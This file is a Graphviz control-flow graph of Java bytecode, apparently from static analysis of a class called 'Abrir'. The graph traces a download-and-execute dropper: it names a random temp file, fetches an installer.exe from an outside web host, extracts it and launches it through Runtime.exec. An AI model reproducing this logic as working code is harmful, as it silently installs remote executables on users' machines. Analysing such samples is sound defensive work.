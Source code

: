 digraph "" {
"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
 "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
 "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>";
 "virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>"->"ifeq return";
 "ifeq return"->"push 'java.io.tmpdir'";
 "push 'java.io.tmpdir'"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
 "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>";
 "virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>"->"ifne new java.lang.StringBuilder";
 "ifne new java.lang.StringBuilder"->"virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>";
 "virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>"->"ifeq new java.lang.StringBuilder";
 "ifeq new java.lang.StringBuilder"->"new java.lang.StringBuilder";
 "new java.lang.StringBuilder"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
 "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
 "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push 'javarunas-'";
 "push 'javarunas-'"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"staticinvoke <java.lang.Math: double random()>";
 "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.lang.StringBuilder";
 "new java.lang.StringBuilder"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
 "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
 "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.lang.StringBuilder";
 "new java.lang.StringBuilder"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
 "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push 'http://www.cavilha.com.br/installer.exe'";
 "push 'http://www.cavilha.com.br/installer.exe'"->"new java.io.File";
 "new java.io.File"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
 "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <Abrir: void wget(java.lang.String,java.io.File)>";
 "virtualinvoke <Abrir: void wget(java.lang.String,java.io.File)>"->"push 'javarunas'";
 "push 'javarunas'"->"virtualinvoke <Abrir: boolean Extrair(java.lang.String,java.lang.String)>";
 "virtualinvoke <Abrir: boolean Extrair(java.lang.String,java.lang.String)>"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
 "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"goto load.r $r34";
 "goto load.r $r34"->"virtualinvoke <java.lang.Boolean: boolean booleanValue()>";
 "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"->"ifeq return";
 "ifeq return"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
 "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
 "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"goto return";
 "goto return"->"return";
 "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"staticget <java.lang.System: java.io.PrintStream out>";
 "staticget <java.lang.System: java.io.PrintStream out>"->"virtualinvoke <java.io.IOException: java.lang.String getMessage()>";
 "virtualinvoke <java.io.IOException: java.lang.String getMessage()>"->"virtualinvoke <java.io.PrintStream: void print(java.lang.String)>";
 "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"staticget <java.lang.System: java.io.PrintStream out>";
 "staticget <java.lang.System: java.io.PrintStream out>"->"virtualinvoke <java.lang.Exception: java.lang.String toString()>";
 "virtualinvoke <java.lang.Exception: java.lang.String toString()>"->"virtualinvoke <java.io.PrintStream: void print(java.lang.String)>";
 "virtualinvoke <java.io.PrintStream: void print(java.lang.String)>"->"goto load.r $r34";
 "ifeq new java.lang.StringBuilder"->"new java.lang.StringBuilder";
 "new java.lang.StringBuilder"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
 "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
 "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"staticinvoke <java.lang.Math: double random()>";
 "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.lang.StringBuilder";
 "new java.lang.StringBuilder"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
 "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push 'http://www.cavilha.com.br/installer.exe'";
 "push 'http://www.cavilha.com.br/installer.exe'"->"new java.io.File";
 "new java.io.File"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
 "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <Abrir: void wget(java.lang.String,java.io.File)>";
 "virtualinvoke <Abrir: void wget(java.lang.String,java.io.File)>"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
 "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"goto load.r $r34";
 "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"staticget <java.lang.System: java.io.PrintStream out>";
 "staticget <java.lang.System: java.io.PrintStream out>"->"virtualinvoke <java.lang.Exception: java.lang.String toString()>";
 "virtualinvoke <java.lang.Exception: java.lang.String toString()>"->"virtualinvoke <java.io.PrintStream: void print(java.lang.String)>";
}
